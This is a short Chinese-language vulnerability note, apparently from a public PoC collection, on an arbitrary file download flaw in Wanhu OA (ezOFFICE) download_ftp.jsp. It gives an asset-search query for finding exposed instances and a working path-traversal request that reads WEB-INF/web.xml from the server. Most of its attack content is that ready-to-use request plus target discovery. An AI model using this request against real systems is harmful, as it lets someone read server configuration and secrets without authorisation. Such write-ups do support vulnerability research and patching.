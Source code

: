 # 万户OA download_ftp.jsp 任意文件下载漏洞

## 漏洞描述

万户OA download_ftp.jsp文件存在任意文件下载漏洞，攻击者通过漏洞可以下载服务器上的任意文件

## 漏洞影响

```
万户OA
```

## 网络测绘

```
app="万户网络-ezOFFICE"
```

## 漏洞复现

产品页面

![image-20220520132512473](./images/202205201325574.png)

验证POC

```
/defaultroot/download_ftp.jsp?path=/../WEB-INF/&name=aaa&FileName=web.xml
```

![image-20220520132537562](./images/202205201325636.png)

